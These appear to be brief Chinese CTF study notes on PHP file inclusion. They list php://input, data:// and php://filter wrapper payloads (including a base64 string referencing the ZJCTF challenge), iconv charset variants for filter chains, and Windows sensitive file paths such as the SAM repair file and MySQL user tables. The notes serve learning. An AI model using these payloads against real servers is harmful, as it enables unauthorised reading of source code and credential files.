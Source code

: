 

## 压缩包

有时候不同压缩工具解压的结果有差异，需要都试试





# 文件包含

## 伪协议：

php://input伪协议以POST传参

data://text/plain,welcome to the zjctf

?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=

php://filter/read=convert.base64-encode/resource=useless.php



```
php://filter/convert.iconv.UTF-7.UCS-4*/resource=xxx.php
```

## iconv:

```
UCS-4*
UCS-4BE
UCS-4LE*
UCS-2
UCS-2BE
UCS-2LE
UTF-32*
UTF-32BE*
UTF-32LE*
UTF-16*
UTF-16BE*
UTF-16LE*
UTF-7
UTF7-IMAP
UTF-8*
ASCII*

```



**windows常见的敏感文件路径:**

```cobol
C:\boot.ini //查看系统版本
C:\Windows\System32\inetsrv\MetaBase.xml //IIS配置文件
C:\Windows\repair\sam //存储系统初次安装的密码
C:\Program Files\mysql\my.ini //Mysql配置
C:\Program Files\mysql\data\mysql\user.MYD //Mysql root
C:\Windows\php.ini //php配置信息
C:\Windows\my.ini //Mysql配置信息
C:\Windows\win.ini //Windows系统的一个基本系统配置文件

```
